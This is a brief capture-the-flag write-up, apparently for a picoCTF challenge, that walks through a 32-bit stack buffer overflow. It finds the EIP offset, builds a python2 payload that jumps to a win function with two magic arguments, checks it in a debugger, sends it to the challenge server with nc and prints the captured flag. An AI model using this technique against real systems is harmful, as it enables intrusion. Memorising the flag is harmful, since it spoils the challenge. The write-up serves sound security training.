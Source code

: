 # Control the Return-addres

##### Information:
The offset is at 112.
```
python2 -c "print('A' * 112 + 'B' * 4)" # CONTROLS THE EIP
```
##### Functions:
WIN =   0x08049296 # \x96\x92\x04\x08
MAIN =  0x08049372

##### Get passed the CAFEF00D and F00DF00D arguments
0xCAFEF00D # \x0D\xF0\xFE\xCA
0xF00DF00D # \x0D\xF0\x0D\xF0

### Create payload to jump to win func and compare $ebp+0x8
└─$ python2 -c "print('A' * 112 + b'\x96\x92\x04\x08' + b'\x72\x93\x04\x08' + b'\x0D\xF0\xFE\xCA' + b'\x0D\xF0\x0D\xF0')" > payload
``` 
 →  0x804930c <win+118>        cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049313 <win+125>        jne    0x804932f <win+153>
    0x8049315 <win+127>        cmp    DWORD PTR [ebp+0xc], 0xf00df00d
``` 
```
gef➤  x $ebp+0x8
0xffffcf84:     0xcafef00d

gef➤  x $ebp+0xc
0xffffcf88:     0xf00df00d
```
### final payload:
└─$ nc saturn.picoctf.net 56529 < payload
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�r�
picoCTF{argum3nt5_4_d4yZ_5d80816e}